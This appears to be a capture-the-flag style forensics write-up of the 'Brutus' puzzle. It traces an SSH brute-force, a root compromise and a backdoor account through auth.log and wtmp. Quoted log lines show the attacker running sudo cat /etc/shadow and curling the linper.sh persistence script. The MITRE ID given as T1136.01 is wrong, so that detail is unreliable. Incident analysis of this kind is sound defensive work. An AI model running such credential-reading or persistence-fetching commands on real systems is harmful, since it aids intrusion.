

For this "Sherlock" puzzle we are provided with a set of files:

```bash
$ ls -l
total 8
-rw-r--r-- 1 kali kali 5756 Jun 13 11:05 Brutus.zip

$ 7z x Brutus.zip

7-Zip 24.09 (x64) : Copyright (c) 1999-2024 Igor Pavlov : 2024-11-29
 64-bit locale=en_US.UTF-8 Threads:2 OPEN_MAX:1024, ASM

Scanning the drive for archives:
1 file, 5756 bytes (6 KiB)

Extracting archive: Brutus.zip
--
Path = Brutus.zip
Type = zip
Physical Size = 5756


Enter password (will not be echoed):
Everything is Ok

Files: 3
Size:       58201
Compressed: 5756

$ ls -l
total 68
-rw-rw-r-- 1 kali kali 43911 Mar  6  2024 auth.log
-rw-r--r-- 1 kali kali  5756 Jun 13 11:05 Brutus.zip
-rw-r--r-- 1 kali kali  3154 Apr 30 10:51 utmp.py
-rw-rw-r-- 1 kali kali 11136 Mar  6  2024 wtmp
```

Let's work through the tasks one by one.

## Task 1

> Analyze the auth.log. What is the IP address used by the attacker to carry out a brute force attack?

```bash
$ head auth.log

Mar  6 06:18:01 ip-172-31-35-28 CRON[1119]: pam_unix(cron:session): session opened for user confluence(uid=998) by (uid=0)
Mar  6 06:18:01 ip-172-31-35-28 CRON[1118]: pam_unix(cron:session): session opened for user confluence(uid=998) by (uid=0)
Mar  6 06:18:01 ip-172-31-35-28 CRON[1117]: pam_unix(cron:session): session opened for user confluence(uid=998) by (uid=0)
Mar  6 06:18:01 ip-172-31-35-28 CRON[1118]: pam_unix(cron:session): session closed for user confluence
```

Lot's of logins. But if we look a bit further down:

```bash
Mar  6 06:31:31 ip-172-31-35-28 sshd[2325]: Invalid user admin from 65.2.161.68 port 46380
Mar  6 06:31:31 ip-172-31-35-28 sshd[2325]: Received disconnect from 65.2.161.68 port 46380:11: Bye Bye [preauth]
Mar  6 06:31:31 ip-172-31-35-28 sshd[2325]: Disconnected from invalid user admin 65.2.161.68 port 46380 [preauth]
Mar  6 06:31:31 ip-172-31-35-28 sshd[620]: error: beginning MaxStartups throttling
Mar  6 06:31:31 ip-172-31-35-28 sshd[620]: drop connection #10 from [65.2.161.68]:46482 on [172.31.35.28]:22 past MaxStartups
Mar  6 06:31:31 ip-172-31-35-28 sshd[2327]: Invalid user admin from 65.2.161.68 port 46392
Mar  6 06:31:31 ip-172-31-35-28 sshd[2327]: pam_unix(sshd:auth): check pass; user unknown
Mar  6 06:31:31 ip-172-31-35-28 sshd[2327]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=65.2.161.68
Mar  6 06:31:31 ip-172-31-35-28 sshd[2332]: Invalid user admin from 65.2.161.68 port 46444
Mar  6 06:31:31 ip-172-31-35-28 sshd[2331]: Invalid user admin from 65.2.161.68 port 46436
Mar  6 06:31:31 ip-172-31-35-28 sshd[2332]: pam_unix(sshd:auth): check pass; user unknown
Mar  6 06:31:31 ip-172-31-35-28 sshd[2332]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=65.2.161.68
```

It seems like the IP address `65.2.161.68` is making many authentication attempts within one second. This is the brute-force attack.

## Task 2

> The bruteforce attempts were successful and attacker gained access to an account on the server. What is the username of the account?

If we filter for `accepted` we will find a succesful login attempt:

```bash
$ grep -ni "accepted" auth.log
12:Mar  6 06:19:54 ip-172-31-35-28 sshd[1465]: Accepted password for root from 203.101.190.9 port 42825 ssh2
281:Mar  6 06:31:40 ip-172-31-35-28 sshd[2411]: Accepted password for root from 65.2.161.68 port 34782 ssh2
322:Mar  6 06:32:44 ip-172-31-35-28 sshd[2491]: Accepted password for root from 65.2.161.68 port 53184 ssh2
360:Mar  6 06:37:34 ip-172-31-35-28 sshd[2667]: Accepted password for cyberjunkie from 65.2.161.68 port 43260 ssh2
```

The first login we see is for the `root` user.

## Task 3

> Identify the UTC timestamp when the attacker logged in manually to the server and established a terminal session to carry out their objectives. The login time will be different than the authentication time, and can be found in the wtmp artifact.

If we try to read the `wtmp` file we will fail because the file is in a binary format:

```bash
$ file wtmp

wtmp: data
```

Luckely enough `Brutus.zip` contained a `utmp.py` script that we can use to read the file:

```bash
$ ./utmp.py
zsh: permission denied: ./utmp.py

$ chmod +x utmp.py

$ ./utmp.py
usage: utmp.py [-h] [-o OUTPUT] input
utmp.py: error: the following arguments are required: input

$ ./utmp.py wtmp
"type"  "pid"   "line"  "id"    "user"  "host"  "term"  "exit"  "session"       "sec"   "usec"  "addr"
"BOOT_TIME"     "0"     "~"     "~~"    "reboot"        "6.2.0-1017-aws"        "0"     "0"     "0"     "2024/01/25 12:12:17"   "804944"        "0.0.0.0"
# ...
```

To nicely format the output we can use the following command:

```bash
$ ./utmp.py wtmp | sed 's/"//g' | column -t

type       pid     line   id    user         host            term        exit        session     sec         usec      addr
BOOT_TIME  0       ~      ~~    reboot       6.2.0-1017-aws  0           0           0           2024/01/25  12:12:17  804944   0.0.0.0
INIT       601     ttyS0  tyS0  0            0               601         2024/01/25  12:12:31    72401       0.0.0.0
LOGIN      601     ttyS0  tyS0  LOGIN        0               0           601         2024/01/25  12:12:31    72401     0.0.0.0
INIT       618     tty1   tty1  0            0               618         2024/01/25  12:12:31    80342       0.0.0.0
LOGIN      618     tty1   tty1  LOGIN        0               0           618         2024/01/25  12:12:31    80342     0.0.0.0
RUN_LVL    53      ~      ~~    runlevel     6.2.0-1017-aws  0           0           0           2024/01/25  12:12:33  792454   0.0.0.0
USER       1284    pts/0  ts/0  ubuntu       203.101.190.9   0           0           0           2024/01/25  12:13:58  354674   203.101.190.9
DEAD       1284    pts/0  0     0            0               2024/01/25  12:15:12    956114      0.0.0.0
USER       1483    pts/0  ts/0  root         203.101.190.9   0           0           0           2024/01/25  12:15:40  806926   203.101.190.9
DEAD       1404    pts/0  0     0            0               2024/01/25  13:34:34    949753      0.0.0.0
USER       836798  pts/0  ts/0  root         203.101.190.9   0           0           0           2024/02/11  11:33:49  408334   203.101.190.9
INIT       838568  ttyS0  tyS0  0            0               838568      2024/02/11  11:39:02    172417      0.0.0.0
LOGIN      838568  ttyS0  tyS0  LOGIN        0               0           838568      2024/02/11  11:39:02    172417    0.0.0.0
USER       838962  pts/1  ts/1  root         203.101.190.9   0           0           0           2024/02/11  11:41:11  700107   203.101.190.9
DEAD       838896  pts/1  0     0            0               2024/02/11  11:41:46    272984      0.0.0.0
USER       842171  pts/1  ts/1  root         203.101.190.9   0           0           0           2024/02/11  11:54:27  775434   203.101.190.9
DEAD       842073  pts/1  0     0            0               2024/02/11  12:08:04    769514      0.0.0.0
DEAD       836694  pts/0  0     0            0               2024/02/11  12:08:04    769963      0.0.0.0
RUN_LVL    0       ~      ~~    shutdown     6.2.0-1017-aws  0           0           0           2024/02/11  12:09:18  731      0.0.0.0
BOOT_TIME  0       ~      ~~    reboot       6.2.0-1018-aws  0           0           0           2024/03/06  07:17:15  744575   0.0.0.0
INIT       464     ttyS0  tyS0  0            0               464         2024/03/06  07:17:27    354378      0.0.0.0
LOGIN      464     ttyS0  tyS0  LOGIN        0               0           464         2024/03/06  07:17:27    354378    0.0.0.0
INIT       505     tty1   tty1  0            0               505         2024/03/06  07:17:27    469940      0.0.0.0
LOGIN      505     tty1   tty1  LOGIN        0               0           505         2024/03/06  07:17:27    469940    0.0.0.0
RUN_LVL    53      ~      ~~    runlevel     6.2.0-1018-aws  0           0           0           2024/03/06  07:17:29  538024   0.0.0.0
USER       1583    pts/0  ts/0  root         203.101.190.9   0           0           0           2024/03/06  07:19:55  151913   203.101.190.9
USER       2549    pts/1  ts/1  root         65.2.161.68     0           0           0           2024/03/06  07:32:45  387923   65.2.161.68
DEAD       2491    pts/1  0     0            0               2024/03/06  07:37:24    590579      0.0.0.0
USER       2667    pts/1  ts/1  cyberjunkie  65.2.161.68     0           0           0           2024/03/06  07:37:35  475575   65.2.161.68
```

The first time we see a `USER` login coming from our attacker `65.2.161.68` is at 07:32:

```bash
$ ./utmp.py wtmp | sed 's/"//g' | column -t | grep 65.2.161.68
USER       2549    pts/1  ts/1  root         65.2.161.68     0           0           0           2024/03/06  07:32:45  387923   65.2.161.68
USER       2667    pts/1  ts/1  cyberjunkie  65.2.161.68     0           0           0           2024/03/06  07:37:35  475575   65.2.161.68
```

We need to get this time as a UTC timestamp. But it is important to notice that `utmp.py` is printing the time in my local timezone:

```python
# ...
sec = struct.unpack("<L", utmp_file.read(4))[0]
sec = time.strftime("%Y/%m/%d %H:%M:%S", time.localtime(float(sec)))
# ...
```

We should change `time.localtime` to `time.gmtime` to print in UTF time. Running again gives us:

```bash
$ ./utmp.py wtmp | sed 's/"//g' | column -t | grep 65.2.161.68

USER       2549    pts/1  ts/1  root         65.2.161.68     0           0           0           2024/03/06  06:32:45  387923   65.2.161.68
USER       2667    pts/1  ts/1  cyberjunkie  65.2.161.68     0           0           0           2024/03/06  06:37:35  475575   65.2.161.68
```

So the UTC timestamp is (`YYYY-MM-DD HH:MM:SS` format) `2024-03-06 06:32:45`.

## Task 4

> SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?

Now that we know the time that the attacker manually logged in, let's go back to `auth.log` and find the corresponding log:

```bash
$ grep -i -A 2 "accepted password" auth.log

Mar  6 06:19:54 ip-172-31-35-28 sshd[1465]: Accepted password for root from 203.101.190.9 port 42825 ssh2
Mar  6 06:19:54 ip-172-31-35-28 sshd[1465]: pam_unix(sshd:session): session opened for user root(uid=0) by (uid=0)
Mar  6 06:19:54 ip-172-31-35-28 systemd-logind[411]: New session 6 of user root.
--
Mar  6 06:31:40 ip-172-31-35-28 sshd[2411]: Accepted password for root from 65.2.161.68 port 34782 ssh2
Mar  6 06:31:40 ip-172-31-35-28 sshd[2411]: pam_unix(sshd:session): session opened for user root(uid=0) by (uid=0)
Mar  6 06:31:40 ip-172-31-35-28 systemd-logind[411]: New session 34 of user root.
--
Mar  6 06:32:44 ip-172-31-35-28 sshd[2491]: Accepted password for root from 65.2.161.68 port 53184 ssh2
Mar  6 06:32:44 ip-172-31-35-28 sshd[2491]: pam_unix(sshd:session): session opened for user root(uid=0) by (uid=0)
Mar  6 06:32:44 ip-172-31-35-28 systemd-logind[411]: New session 37 of user root.
--
Mar  6 06:37:34 ip-172-31-35-28 sshd[2667]: Accepted password for cyberjunkie from 65.2.161.68 port 43260 ssh2
Mar  6 06:37:34 ip-172-31-35-28 sshd[2667]: pam_unix(sshd:session): session opened for user cyberjunkie(uid=1002) by (uid=0)
Mar  6 06:37:34 ip-172-31-35-28 systemd-logind[411]: New session 49 of user cyberjunkie.
```

The time corresponds with session `37`.

## Task 5

> The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?

Less than two minutes after logging in, a new account is created:

```bash
$ grep "useradd" auth.log

Mar  6 06:34:18 ip-172-31-35-28 useradd[2592]: new user: name=cyberjunkie, UID=1002, GID=1002, home=/home/cyberjunkie, shell=/bin/bash, from=/dev/pts/1
```

The name of the account is `cyberjunkie`.

## Task 6

> What is the MITRE ATT&CK sub-technique ID used for persistence by creating a new account?

We can find "Create Account" on the [ATT&CK Matrix](https://attack.mitre.org/):



And we can check the sub-technique page for "Local Account":


The ID is `T1136.01`.

## Task 7

> What time did the attacker's first SSH session end according to auth.log?

This one is easy:

```bash
$ grep -i "session 37" auth.log

Mar  6 06:32:44 ip-172-31-35-28 systemd-logind[411]: New session 37 of user root.
Mar  6 06:37:24 ip-172-31-35-28 systemd-logind[411]: Session 37 logged out. Waiting for processes to exit.
Mar  6 06:37:24 ip-172-31-35-28 systemd-logind[411]: Removed session 37.
```

The UTC timestamp here is `2024-03-06 06:37:24` (same day as before).

## Task 8

> The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?

```bash
$ grep -i "cyberjunkie" auth.log

Mar  6 06:34:18 ip-172-31-35-28 groupadd[2586]: group added to /etc/group: name=cyberjunkie, GID=1002
Mar  6 06:34:18 ip-172-31-35-28 groupadd[2586]: group added to /etc/gshadow: name=cyberjunkie
Mar  6 06:34:18 ip-172-31-35-28 groupadd[2586]: new group: name=cyberjunkie, GID=1002
Mar  6 06:34:18 ip-172-31-35-28 useradd[2592]: new user: name=cyberjunkie, UID=1002, GID=1002, home=/home/cyberjunkie, shell=/bin/bash, from=/dev/pts/1
Mar  6 06:34:26 ip-172-31-35-28 passwd[2603]: pam_unix(passwd:chauthtok): password changed for cyberjunkie
Mar  6 06:34:31 ip-172-31-35-28 chfn[2605]: changed user 'cyberjunkie' information
Mar  6 06:35:15 ip-172-31-35-28 usermod[2628]: add 'cyberjunkie' to group 'sudo'
Mar  6 06:35:15 ip-172-31-35-28 usermod[2628]: add 'cyberjunkie' to shadow group 'sudo'
Mar  6 06:37:34 ip-172-31-35-28 sshd[2667]: Accepted password for cyberjunkie from 65.2.161.68 port 43260 ssh2
Mar  6 06:37:34 ip-172-31-35-28 sshd[2667]: pam_unix(sshd:session): session opened for user cyberjunkie(uid=1002) by (uid=0)
Mar  6 06:37:34 ip-172-31-35-28 systemd-logind[411]: New session 49 of user cyberjunkie.
Mar  6 06:37:34 ip-172-31-35-28 systemd: pam_unix(systemd-user:session): session opened for user cyberjunkie(uid=1002) by (uid=0)
Mar  6 06:37:57 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/cat /etc/shadow
Mar  6 06:37:57 ip-172-31-35-28 sudo: pam_unix(sudo:session): session opened for user root(uid=0) by cyberjunkie(uid=1002)
Mar  6 06:39:38 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
Mar  6 06:39:38 ip-172-31-35-28 sudo: pam_unix(sudo:session): session opened for user root(uid=0) by cyberjunkie(uid=1002)
```

The command is `/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`.

## Conclusion

We have solved all 8 questions from this "Sherlock". I enjoyed this and I hope to see you next time!
